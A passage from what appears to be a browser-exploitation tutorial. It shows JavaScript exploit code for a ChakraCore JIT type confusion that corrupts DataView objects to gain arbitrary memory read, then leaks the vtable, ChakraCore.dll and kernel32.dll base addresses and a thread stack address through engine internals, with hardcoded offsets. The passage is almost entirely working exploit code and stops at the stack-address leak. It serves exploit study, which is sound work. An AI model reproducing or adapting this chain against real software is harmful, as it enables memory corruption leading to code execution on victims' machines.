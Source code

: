 Here is our updated code, including the stack leak.

```javascript
    (...)truncated(...)

    opt(o, o, obj);     // Instead of supplying 0x1234, we are supplying our obj

    // Corrupt obj->auxSlots with the address of the first DataView object
    o.c = dataview1;

    // Corrupt dataview1->buffer with the address of the second DataView object
    obj.h = dataview2;

    // dataview1 methods act on dataview2 object
    // Since vftable is located from 0x0 - 0x8 in dataview2, we can simply just retrieve it without going through our read64() function
    vtableLo = dataview1.getUint32(0x0, true);
    vtableHigh = dataview1.getUint32(0x4, true);

    // Extract dataview2->type (located 0x8 - 0x10) so we can follow the chain of pointers to leak a stack address via...
    // ... type->javascriptLibrary->scriptContext->threadContext
    typeLo = dataview1.getUint32(0x8, true);
    typeHigh = dataview1.getUint32(0xC, true);

    // Print update
    print("[+] DataView object 2 leaked vtable from ChakraCore.dll: 0x" + hex(vtableHigh) + hex(vtableLo));

    // Store the base of chakracore.dll
    chakraLo = vtableLo - 0x1961298;
    chakraHigh = vtableHigh;

    // Print update
    print("[+] ChakraCore.dll base address: 0x" + hex(chakraHigh) + hex(chakraLo));

    // Leak a pointer to kernel32.dll from ChakraCore's IAT (for who's base address we already have)
    iatEntry = read64(chakraLo+0x17c0000+0x40, chakraHigh);     // KERNEL32!RaiseExceptionStub pointer

    // Store the upper part of kernel32.dll
    kernel32High = iatEntry[1];

    // Store the lower part of kernel32.dll
    kernel32Lo = iatEntry[0] - 0x1d890;

    // Print update
    print("[+] kernel32.dll base address: 0x" + hex(kernel32High) + hex(kernel32Lo));

    // Leak type->javascriptLibrary (lcoated at type+0x8)
    javascriptLibrary = read64(typeLo+0x8, typeHigh);

    // Leak type->javascriptLibrary->scriptContext (located at javascriptLibrary+0x450)
    scriptContext = read64(javascriptLibrary[0]+0x450, javascriptLibrary[1]);

    // Leak type->javascripLibrary->scriptContext->threadContext
    threadContext = read64(scriptContext[0]+0x3b8, scriptContext[1]);

    // Leak type->javascriptLibrary->scriptContext->threadContext->stackLimitForCurrentThread (located at threadContext+0xc8)
    stackAddress = read64(threadContext[0]+0xc8, threadContext[1]);

    // Print update
```